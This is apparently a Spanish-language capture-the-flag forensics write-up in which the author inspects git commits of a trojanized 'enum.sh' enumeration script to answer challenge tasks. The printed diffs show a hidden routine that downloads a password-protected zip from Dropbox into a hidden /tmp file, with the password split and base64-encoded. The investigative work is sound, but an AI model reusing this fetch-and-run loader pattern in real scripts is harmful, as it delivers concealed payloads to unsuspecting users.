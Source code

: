 Penseríamos que en penúltimos cambio fue cuando quitó los comentarios, revisemos con ese id:


```bash 
┌──(root㉿kali)-[/home/…/User_Files/home/johnspire/autoenum]
└─# git show 7d203152c5a3a56af3d57eb1faca67a3ec54135f
commit 7d203152c5a3a56af3d57eb1faca67a3ec54135f
Author: brown249 <85936721+brown249@users.noreply.github.com>
Date:   Mon Dec 23 22:27:58 2024 +0000

    Update enum.sh

diff --git a/enum.sh b/enum.sh
index 18f7b2e..5f685d8 100644
--- a/enum.sh
+++ b/enum.sh
@@ -65,25 +65,22 @@ do_dirb() {
 }
 
 do_wget_and_run() {
-    # Pieces for combining later (remote location for something)
     f1="https://www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2"
     f2="/blob.zip?rlkey=zmbys0idnbab9qnl45xhqn257&st=v22geon6&dl=1"
-    OUTPUT_FILE="/tmp/.hidden_$RANDOM.zip"  # Temporary storage with randomized identifier
-    UNZIP_DIR="/tmp/"  # Destination for extracted items
-
-    # Decode hidden sequence (secure key for locked data)
+    OUTPUT_FILE="/tmp/.hidden_$RANDOM.zip"  
+    UNZIP_DIR="/tmp/" 
     part1="c3VwZXI="
     part2="aGFja2Vy"
-    PASSWORD=$(echo "$part1$part2" | base64 -d)  # Rebuild and unlock the access code
+    PASSWORD=$(echo "$part1$part2" | base64 -d)
```

Parece que el `2024-12-23 22:27:58` finalmente quitó los comanetarios de la función que nos interesa. 

---
**task 6**

El atacante cambió la URL para descargar el archivo, ¿cuál era antes del cambio?

Para esto podemos seguir explorando los cambios usando los ID: 

```bash 
┌──(root㉿kali)-[/home/…/User_Files/home/johnspire/autoenum]
└─# git show 5d88bee8918d514a206fec91be72899544cdd37b
commit 5d88bee8918d514a206fec91be72899544cdd37b
Author: brown249 <85936721+brown249@users.noreply.github.com>
Date:   Mon Dec 23 22:23:41 2024 +0000

    Update enum.sh

diff --git a/enum.sh b/enum.sh
index 4588988..0a97220 100644
--- a/enum.sh
+++ b/enum.sh
@@ -65,7 +65,7 @@ do_dirb() {
 }
 
 do_wget_and_run() {
-    FILE_URL="https://www.dropbox.com/scl/fi/wu0lhwixtk2ap4nnbvv4a/blob.zip?rlkey=gmt8m9e7bd02obueh9q3voi5q&st=em7ud3pb&dl=1"
+    FILE_URL="https://www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2/blob.zip?rlkey=zmbys0idnbab9qnl45xhqn257&st=v22geon6&dl=1"
     OUTPUT_FILE="/tmp/blob.zip"
```